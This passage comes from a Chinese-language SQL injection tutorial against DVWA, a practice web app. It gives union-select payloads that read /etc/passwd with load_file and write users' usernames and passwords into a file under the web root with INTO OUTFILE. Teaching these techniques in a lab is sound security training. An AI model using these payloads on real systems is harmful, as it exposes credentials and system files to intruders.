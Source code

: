 `1' and 1=2 union select 1,load_file('/etc/passwd');#`

![image-20220318095156712](../../images/image-20220318095156712.png)

### 8.2 利用SQL注入写入文件

利用outfile函数可以在数据库有写权限的目录写入文件。

#### 8.2.1 将数据库查询结果写入文件

如将对user和password的查询结果写入/var/www/html目录下命名为1.bak的文件中：

```
1' and 1=2 union select user,password from users into outfile '/var/www/dvwaplus/1.bak'#
```

![image-20220318100038107](../../images/image-20220318100038107.png)
